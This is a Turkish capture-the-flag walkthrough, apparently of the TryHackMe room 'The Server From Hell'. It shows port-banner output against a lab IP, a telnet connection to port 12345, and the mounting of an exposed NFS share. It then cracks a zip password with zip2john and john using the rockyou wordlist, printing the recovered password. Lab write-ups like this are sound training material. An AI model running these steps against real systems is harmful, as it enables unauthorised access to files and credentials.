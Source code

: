 ```txt
550 12345 0fffffffffff8000000000000000008888887cfcfffffffffffff0010.10.225.52 [10.10.225.52] 7 (echo) open
550 12345 0fffffffffffff777778887777777777cffffffffffffffffffff0010.10.225.52 [10.10.225.52] 6 (?) open
550 12345 0ffffffffffffffffffffffffffffffffffffffffffffffffffff0010.10.225.52 [10.10.225.52] 5 (?) open
550 12345 000000000000000000000000000000000000000000000000000000010.10.225.52 [10.10.225.52] 4 (?) open
550 12345 000000000000000000000000000000000000000000000000000000010.10.225.52 [10.10.225.52] 3 (?) open
550 12345 000000000000000000000000000000000000000000000000000000010.10.225.52 [10.10.225.52] 2 (?) open
550 12345 000000000000000000000000000000000000000000000000000000010.10.225.52 [10.10.225.52] 1 (tcpmux) open
550 12345 0000000000000000000000000000000000000000000000000000000─
```
Dikkatli bakınca 21. porttan dönen cevapta 12345 numaralı porta gidilmesi söylenmiştir. Ayrıca bizim trollface de baş aşağı görülmektedir. Aşağıda sizler için düzeltilmiş hali yer almaktadır. :stuck_out_tongue_winking_eye:

{{< image src="/images/thm/theserverfromhell/trollface.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

**Telnet** ile 12345 portuna bağlantı sağlanılır.

```bash
telnet 10.10.225.52 12345
```
{{< image src="/images/thm/theserverfromhell/12345.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

NFS ile ilgili bir ikaz yer almaktadır. ***Showmount*** aracı ile sistemde nfs ile bir dosya paylaşımı yapılıp yapılmadığı kontrol edilir.

```
showmount -e 10.10.225.52
```
{{< image src="/images/thm/theserverfromhell/nfss.png" alt="Hello Friend" position="center" style="border-radius: 4px;" >}}

Paylaşıma açık olan ***/home/nfs*** dizini localhosta mount edilerek paylaşım görüntülenir. 

```bash
sudo mkdir /tmp/mnt
sudo mount -t nfs 10.10.225.52:/home/nfs /tmp/mnt/ 
```
Localhostta ***/tmp/mnt/*** dizinine gidilerek dizin listelendiğinde backup.zip adında bir dosya tespit edilir. Dosya /tmp dizinine açılmaya çalışıldığında parola koruması olduğu görülür.

{{< image src="/images/thm/theserverfromhell/backup.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Zip dosyasının parola hash bilgisi ***zip2john*** aracı ile çıkarılır ve ***john*** ile sözlük saldırısı yapılarak parola elde edilir.

```bash
zip2john backup.zip > ../hash

john -wordlist=/usr/share/wordlists/rockyou.txt ../hash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
zxcvbnm          (backup.zip)
1g 0:00:00:00 DONE (2020-11-04 11:28) 33.33g/s 136533p/s 136533c/s 136533C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
***Unzip*** ile dosya açılır. 